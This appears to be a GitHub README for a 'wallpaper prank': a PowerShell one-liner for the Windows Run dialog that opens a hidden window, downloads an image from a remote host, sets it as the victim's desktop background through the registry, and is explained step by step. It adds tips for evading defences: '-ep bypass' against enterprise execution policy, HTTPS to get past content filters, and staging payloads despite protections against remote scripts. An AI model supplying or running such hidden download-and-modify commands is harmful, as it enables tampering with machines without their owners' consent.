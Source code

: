 # Powershell Wallpaper Prank
Powershell command to change wallpaper on Windows 10 from the run command all less than 260 characters

Improving on the Hak5 video One Line Powershell Wallpaper Prank - Hak5 2502

[![One Line Powershell Wallpaper Prank - Hak5 2502](https://img.youtube.com/vi/f3C58OKOsuo/0.jpg)](https://www.youtube.com/watch?v=f3C58OKOsuo)

The original code which is 253 characters
```
cmd /C "start /MIN powershell iwr -Uri http://h4k.cc/b.jpg -OutFile c:\windows\temp\b.jpg;sp 'HKCU:Control Panel\Desktop' WallPaper 'c:\windows\temp\b.jpg';$a=1;do{RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;sleep 1}while($a++-le59)"
```

The following can be run in the windows Run dialog which has the 260 character limit and will replace the user's desktop background with an image of your choice. Reduced to 233 characters.

```
powershell -w h -c "$a=$ENV:TMP+$([guid]::NewGuid())+'.jpg';iwr -Uri http://h4k.cc/b.jpg -OutFile $($a);sp 'HKCU:Control Panel\Desktop' WallPaper $($a);1..60|%{RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;sleep 1}"
```

Broken down this does the following:
```powershell -w h -c ```
launch a hidden powershell window and run a command, note this can be changed to the following can be added to bypass the execution policy powershell restriction you find in most enterprises, but this adds 12 characters if this is needed.

```powershell -ep bypass -w h -c```

The next secion creates a variable of a file in the user temp directory with a random GUID name.

```$a=$ENV:TMP+$([guid]::NewGuid())+'.jpg';```

The next secion downloads the image from the remote site using an alias of Invoke-WebRequest and stores it in the temp location you just declared

```iwr -Uri http://h4k.cc/b.jpg -OutFile $($a);```

Then set the Registry wallpaper item property using the 'sp' alias of 'Set-ItemProperty' to the wallpaper

```sp 'HKCU:Control Panel\Desktop' WallPaper $($a);```

Finally, the command ```RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;``` will update the desktop on the user's screen, but it is not reliable and needs to be triggered multiple times so it is wrapped in a 60 second loop.

```1..60|%{RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True;sleep 1}```

### Things which need improvement
Currently this does not allow locations which are serving images over https which would bypass some content filtering systems due to a

```iwr : The request was aborted: Could not create SSL/TLS secure channel.```

error, this can be fixed by running the follwoing command prior to executing the rest 

```
[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
```
but this is an extra 78 characters which would put it over the 260 character limit. 

I am aware that I could make this a 2 stage payloaad or load the script externally, but as many organisations protect against remote powershell scripts and I want this to execute entirely within the Run dialog, I am currently looking for an alias which will ideally perform this in less than 20 characters.
